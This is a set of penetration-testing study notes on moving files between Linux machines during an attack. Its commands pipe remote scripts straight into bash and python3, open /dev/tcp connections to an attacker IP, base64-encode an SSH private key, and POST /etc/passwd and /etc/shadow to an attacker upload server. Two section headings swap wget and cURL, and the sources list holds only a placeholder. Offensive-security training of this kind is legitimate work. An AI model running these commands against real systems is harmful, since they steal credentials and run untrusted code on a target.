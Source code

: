 ```yaml
---
title: File_Transfer_Methods_Linux
tags:
  - file_sharing
  - linux
created: 2025-02-25
---
```


# File_Transfer_Methods_Linux

## Description
There are various methods to transfer files between systems using Linux tools and bash

## Download Operations
### Base64 Encode & Decode
#### Encode the file on attacker machine
Encode a file into a Base64 string (useful when transferring via text channels).
```bash
md5sum id_rsa # For checking the file integrity
cat id_rsa | base64 -w 0; echo
    ```

#### Decode the file on target machine
On the target linux machine decode the string back into a file:
```bash
echo -n 'base64string' | base64 -d > id_rsa
```

### Web Downloads with Wget and cURL
#### wget download
```bash
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
```

#### cURL downlaod
`cURL` is very similar to `wget`, but the output filename option is lowercase `-o'.
```bash
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

### Fileless Attacks Using Linux
Because of the way Linux works and how [pipes operate](https://www.geeksforgeeks.org/piping-in-unix-or-linux/), most of the tools we use in Linux can be used to replicate fileless operations, which means that we don't have to download a file to execute it.

>[!NOTE]
>Note: Some payloads such as mkfifo write files to disk. Keep in mind that while the execution of the payload may be fileless when you use a pipe, depending on the payload chosen it may create temporary files on the OS.

#### Fileless download with wget
```bash
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```

#### Fileless download with cURL
`cURL` is very similar to `wget`, but the output filename option is lowercase `-o'.
```bash
wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```

### Download with Bash (/dev/tcp)
There may also be situations where none of the well-known file transfer tools are available. As long as Bash version 2.04 or greater is installed (compiled with --enable-net-redirections), the built-in /dev/TCP device file can be used for simple file downloads.
#### Connect to the webserver
```bash
exec 3<>/dev/tcp/<attacker_ip>/80
```
#### HTTP GET request
```bash
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```
#### Print the Response
```bash
cat <&3
```
### SSH Downloads
SSH is a protocol that allows secure access to remote computers. SSH implementation comes with an `SCP` utility for remote file transfer that, by default, uses the SSH protocol.
```bash
scp <username>@<attacker_ip>:/root/myroot.txt . # on a target machine
```

>[!NOTE]
>You can create a temporary user account for file transfers and avoid using your primary credentials or keys on a remote computer. 

## Upload Operations
### Web Upload via HTTPS
we can use uploadserver - extended module of the Python `HTTP.Server` module, which includes a file upload page. For this example let's configure the `uploadserver` module to use `HTTPS` for secure communication.
####  Download python module
```bash
sudo python3 -m pip install --user uploadserver
```

####  Create a self-signed certificate
```bash
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

# The webserver should not host the certificate.
# Create a new directory to host the file for webserver.
mkdir https && cd https
```

#### Start a web server
```bash
sudo python3 -m uploadserver 443 --server-certificate ~/server.pem
```

#### From a target machine upload multiple files
```bash
curl -X POST https://<attacker_ip>/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

### Alternative Web File Transfer Method
#### Creating a web server
```bash
python3 -m http.server

python2.7 -m SimpleHTTPServer

php -S 0.0.0.0:8000

ruby -run -ehttpd . -p8000

```

#### Downloading a file from target host to attacker host
```bash
wget <target_ip>:8000/filetotransfer.txt
```

### SSH Upload
Some companies allow the `SSH protocol` for outbound connections. If that's the case, we can use an SSH server with the `scp` utility to upload files
```bash
scp /etc/passwd <target_username>@<target_ip>:/home/directory
```

## Sources
- link

